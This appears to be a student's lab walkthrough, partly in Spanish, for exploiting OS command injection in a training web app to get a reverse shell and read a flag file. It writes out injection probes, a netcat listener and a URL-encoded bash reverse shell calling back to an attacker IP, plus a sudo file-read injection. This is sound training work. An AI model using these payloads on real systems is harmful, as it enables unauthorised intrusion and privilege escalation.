 # Walk: Laboratorio 2 de 4 OS Command injection

## Fecha: 22/01/2025
## Host: Ubuntu
## IP: 192.168.248.16

---

## Objetivo
For this exercise the Mountain Vaults application runs on Linux (VM #2). 
Exploit the command injection vulnerability like we did in this section, 
but this time use Linux specific commands to obtain a reverse shell. 
As soon as you have a reverse shell use the **sudo su** command to gain elevated privileges. 
Once you gain elevated privileges, find the flag located in the **/opt/config.txt** file.

---
## Herramientas
1. 
2. tool - 2
---
## Procedimiento y comandos
1. Paso 1: El vector de ataque principal es la inyeccion de codigo por medio del input
	- **git --version;whoami** --> Utilizacion del **;** para obtener el nombre del usuaro.
	- Resultado positivo.
2. Paso 2: Probamos obtener de una el reverse Shel por medio de burp y nc
	- **nc -lnvp 4444**
	- desde el repeater pasamos el reverse shell codificado a URL
	- **bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.205%2F4444%200%3E%261**

---
## Troubleshooting
1. No se obtiene el reverse shell. Se obtiene el flag directamente desde burp **;sudocat%20/opt/config.txt**
	- se revisa con **nmap -p 8000 19.168.248.16** y el puerto esta cerrado.

---

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

